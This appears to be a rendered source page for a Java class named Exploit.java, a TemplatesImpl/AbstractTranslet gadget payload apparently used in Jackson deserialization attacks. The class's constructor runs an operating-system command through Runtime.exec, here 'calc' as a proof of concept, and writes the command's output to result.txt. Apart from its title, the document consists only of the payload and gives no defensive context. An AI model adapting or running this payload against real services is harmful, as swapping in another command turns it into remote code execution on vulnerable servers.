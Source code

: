 Exploit.java

```bash
package jackson;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.*;

public class Exploit extends AbstractTranslet {
    public Exploit() throws Exception {

        try {
            BufferedReader br = null;

            Process p = Runtime.getRuntime().exec("calc");
            br = new BufferedReader(new InputStreamReader(p.getInputStream()));

            String line = null;
            StringBuilder sb = new StringBuilder();
            while ((line = br.readLine()) != null) {
                sb.append(line + "\n");
                System.out.println(sb);
            }
            File file = new File("result.txt");

            if(!file.exists()){
                file.createNewFile();
            }


            FileWriter fileWritter = new FileWriter(file.getName(),true);
            BufferedWriter bufferWritter = new BufferedWriter(fileWritter);
            bufferWritter.write(sb.toString());
            bufferWritter.close();
            System.out.println(sb);
        } catch (IOException e) {
            e.printStackTrace();

        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
